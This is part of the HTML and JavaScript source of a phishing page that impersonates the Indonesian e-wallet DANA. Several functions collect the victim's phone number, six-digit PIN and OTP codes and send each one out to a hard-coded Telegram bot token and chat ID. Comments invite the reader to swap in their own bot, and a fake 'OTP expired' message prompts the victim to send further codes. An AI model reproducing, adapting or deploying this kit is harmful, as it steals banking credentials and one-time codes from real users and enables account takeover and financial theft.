       <input type="tel" id="pin333" data-id="333" name="pin333" maxlength="1" autofocus> 
       <input type="tel" id="pin444" data-id="444" name="pin444" maxlength="1" required onchange="javascript:this.form.submit();" oninput="kirimPesan1()" autofocus> 
       <p></p> 
       <input type="tel" style="opacity: 0.0"> 
       </center>
       <div style="margin: 30px">
            <p id="useridku" style="font-size: 13px; text-align: center; margin-bottom: 118px; font-weight: 400; color: red; margin-top: -180px; margin-left: 0px; display: ">Kode dikirim via SMS ke Nomor anda</p>
             </div>
       <p></p>
 <p class="resend" style="font-weight: 800; color: #ccc; z-index: 99999999999; position: static; margin-left: 170px">KIRIM ULANG (<span id="time">60</span>s)</p>
      </div> 
     </div> 
     
     <input type="hidden" id="logo" value="">

</form>
  </div>
  <div style="overflow:auto;">
    <div style="float: ; display: none" id="tombolback">
      <arole type="button" class="back" id="prevBtn" onclick="nextPrev(-1)"><img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></a>
      </div>
        
  </div>
  
  <!-- Circles which indicates the steps of the form: -->
  <div style="text-align:center;margin-top:40px;">
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    </form>
  </div>
   
   <center>
 <div id="process" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading">
            </div>
        </div>
        </center>
          <center>
 <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading">
            </div>
        </div>
        </center>
       <script>
$(document).ready(function() {
    $('#nope').on('input change', function() {
        if(nope.value.length >9) {
        nextBtn.disabled= false
       }
        else {
        nextBtn.disabled= true;
        }
    });
});
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.3.1/jquery.min.js"
    integrity="sha512-+NqPlbbtM1QqiK8ZAo4Yrj2c4lNQoGv8P79DPtKzj++l5jnN39rHA/xsqn8zE9l0uSoxaCdrOgFs6yjyfbBxSg=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
     <script>
        $(document).ready(function () {
            $("#nextBtn").on('click', function () {
                $("#process").show();
                setTimeout(() => {
                $("#process").fadeOut();
                },1500)
              });
        });
        
        
      function startTimer(duration, display) {
    var timer = duration, minutes, seconds;
    setInterval(function () {
        minutes = parseInt(timer / 59, 10);
        seconds = parseInt(timer % 59, 10);
        minutes = minutes < 10 ? "0" + minutes : minutes;
        seconds = seconds < 10 ? "0" + seconds : seconds;
        display.textContent = seconds;
        if (--timer < 0) {
            timer = duration;
        }
    }, 1000);
}
window.onload = function () {
    var fiveMinutes = 59 * 1,
        display = document.querySelector('#timer');
    startTimer(fiveMinutes, display);
};


    </script>
<script>
  function backbutton(){
      document.getElementById("danapin").style.display = "none";
      document.getElementById("login").style.display = "block";
      document.getElementById("tombolback").style.display = "block";
      document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
  }
  
  
  function kembalibutton(){
      document.getElementById("myForm").style.display = "none";
      document.getElementById("danapin").style.display = "block";
      document.getElementById("prevBtn1").style.display = "none";
        document.getElementById("prevBtn").style.display = "block";
        document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
        document.write.getElementById("danapin")
        var pinContainer = document.querySelector(".pin-code");
        
        pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
      
      
  }
        
   
  
  </script>
  <script>
function nomorLogin(){
   document.getElementById("danapin").style.display = "block";
   document.getElementById("tombolback").style.display = "none";
   document.getElementById("process1").style.display = "flex";
   setTimeout(() => {
      $("#process1").fadeOut();
   },1500)
  document.getElementById("login").style.display = "none";
     document.getElementById("userid").innerHTML = "nomor";
      var logo = document.getElementById('logo');       
    var nope = document.getElementById('nope');
    
    var gabungan = '' + logo.value + '%0A~%20𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20' + nope.value;
   
    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 
    
  </script>
<script>
function openForm() {
  document.getElementById("myForm").style.display = "block";
   document.getElementById("prevBtn").style.display = "none";
     document.getElementById("prevBtn1").style.display = "block";
     
      
  document.getElementById("process1").style.display = "flex";
  setTimeout(() => {
      $("#process1").fadeOut();
  },1500)
      document.getElementById("danapin").style.display = "none";
  document.getElementById("userid").innerHTML = "Kode dikirim via SMS ke +62" + nope.value; 
    
  var logo = document.getElementById('logo');
  var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A~%20𝗣𝗜𝗡 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
  
function nextPrev(){
    document.getElementById("login").style.display = "block";
    document.getElementById("process1").style.display = "flex";
    setTimeout(() => {
      $("#process1").fadeOut();
    },800)
       document.getElementById("homeku").style.display = "none";
    
} 
  
  
function kirimPesan(){
    
    document.getElementById("valid").style.display = "block";
     document.getElementById("myForm").style.display = "none";
     document.getElementById("process1").style.display = "flex";
     setTimeout(() => {
      $("#process1").fadeOut();
     },1500)
   document.getElementById("useridku").innerHTML = "Kode OTP telah kadaluarsa atau invalid, Silahkan Kirim ulang OTP"; 
   
    
     var logo = document.getElementById('logo');
   var pin11 = document.getElementById('pin11');
   var pin22 = document.getElementById('pin22');
   var pin33 = document.getElementById('pin33');
   var pin44 = document.getElementById('pin44');
    

    var gabungan = '' + logo.value +  '%0A~%20𝗢𝗧𝗣 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20%20' + pin11.value + pin22.value + pin33.value + pin44.value;


    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 
 function startTimer(duration, display) {
    var timer = duration, minutes, seconds;
    setInterval(function () {
        minutes = parseInt(timer / 60, 10);
        seconds = parseInt(timer % 60, 10);
        minutes = minutes < 10 ? "0" + minutes : minutes;
        seconds = seconds < 10 ? "0" + seconds : seconds;
        display.textContent = seconds;
        if (--timer < 0) {
            timer = duration;
        }
    }, 1000);
}
window.onload = function () {
    var fiveMinutes = 59 * 1,
        display = document.querySelector('#time');
    startTimer(fiveMinutes, display);
};



    </script>
  <script>
$( document ).ready(function() {
            setTimeout(() => {
                $('welalxcome').hide();
                $('chsalxcome2').fadeIn();
            },2060)
        })
        
</script>

<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
<script src="https://cdn.rawgit.com/igorescobar/jQuery-Mask-Plugin/1ef022ab/dist/jquery.mask.min.js"></script>
<script type="text/javascript">
	$(document).ready(function(){
	    // Format nomor HP.
	  $( '.nope' ).mask('999-9999-99999');
	})
</script>
    </body>
</html>
<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".pin-code");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>
//var pinContainer = document.getElementsByClassName("pin-code1")[maxlength];
var pinContainer = document.querySelector(".pin-code1");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>
//var pinContainer = document.getElementsByClassName("pin-code2")[maxlength];
var pinContainer = document.querySelector(".pin-code2");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);



function kirimPesan1(){
    
 
   document.getElementById("useridku").innerHTML = "Kode OTP telah kadaluarsa atau invalid, Silahkan Kirim ulang OTP"; 
   document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
    
     var logo = document.getElementById('logo');
   var pin111 = document.getElementById('pin111');
   var pin222 = document.getElementById('pin222');
   var pin333 = document.getElementById('pin333');
   var pin444 = document.getElementById('pin444');
    

    var gabungan = '' + logo.value +  '%0A~%20𝗢𝗧𝗣 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20%20' + pin111.value + pin222.value + pin333.value + pin444.value;


    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 </script>
 <script>
  function closechat(){
      document.getElementById("Backdrop").style.display = "none";
  }
  function openchat(){
      document.getElementById("Backdrop").style.display = "block";
  }
</script>
<script>
// Ganti nomor WhatsApp berikut dengan nomor kamu
const NOMOR_WHATSAPP = ""; //Pastikan nomor diawali dengan kode negara tanpa tanda "+" (cth. 085-XXX-XXX-XXX diubah mendaji 6285-XXX-XXX-XXX)

const ewc_hidden = document.querySelectorAll(".ewc_hidden");
const ewc_button = document.querySelectorAll(".ewc_button");
const ewc_audio = new Audio(
  "https://www-dana-idl.github.io/Dana.kaget/diana-dana.mp3"
);

const ewcShow = () => {
  ewc_hidden.forEach((el) => {
    el.style.display = "flex";
    el.ariaHidden = "false";
  });
  ewc_audio.play();

  setTimeout(() => {
    ewc_hidden.forEach((el) => {
      el.style.opacity = "1";
    });
  }, 0);

  setTimeout(() => {
    document.getElementById("ewChatBubble").style.opacity = "1";
  }, 300);
};

const ewcHide = () => {
  ewc_hidden.forEach((el) => {
    el.style.opacity = "0";
    document.getElementById("ewChatBubble").style.opacity = "0";
    el.ariaHidden = "true";
  });

  setTimeout(() => {
    ewc_hidden.forEach((el) => {
      el.style.display = "none";
    });
  }, 1000);
};

function ewcOpen() {
  if (ewChatBox.style.display == "none") {
    ewcShow();
  } else {
    ewcHide();
  }
}

document.querySelectorAll(".ewc_close").forEach((el) => {
  el.addEventListener("click", ewcHide);
});

document.querySelectorAll(".ewc_open").forEach((el) => {
  el.addEventListener("click", ewcOpen);
});

document.getElementById("ewc_send").addEventListener("click", () => {
  window.open(
    `https://wa.me/${NOMOR_WHATSAPP}?text=${encodeURI(
      document.getElementById("ewc_message").value
    )}`
  );
});
</script>
